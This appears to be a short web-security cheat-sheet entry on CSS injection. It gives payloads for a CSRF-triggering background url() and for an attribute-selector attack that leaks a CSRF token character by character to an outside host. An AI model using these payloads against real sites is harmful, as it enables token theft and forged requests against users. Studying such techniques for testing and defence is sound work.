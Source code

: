 # CSS Injection
- expression()
- import URL (CSRF)
    - Referer
    - url(...)

        ```
        body {
            background:
            url(http://example.com/logout);
        }
        ```

    - ...

- CSS Selector

    > Read part of HTML source, like CSRF Token

    ```css
    input[name=csrf][value^="1"]{background:url(http://ip/1)}   X
    input[name=csrf][value^="2"]{background:url(http://ip/2)}   O
    input[name=csrf][value^="2a"]{background:url(http://ip/2a)} X
    input[name=csrf][value^="2e"]{background:url(http://ip/2e)} O
    ...
    <input type="text" name="csrf" avlue="2e58ca...">
    ```
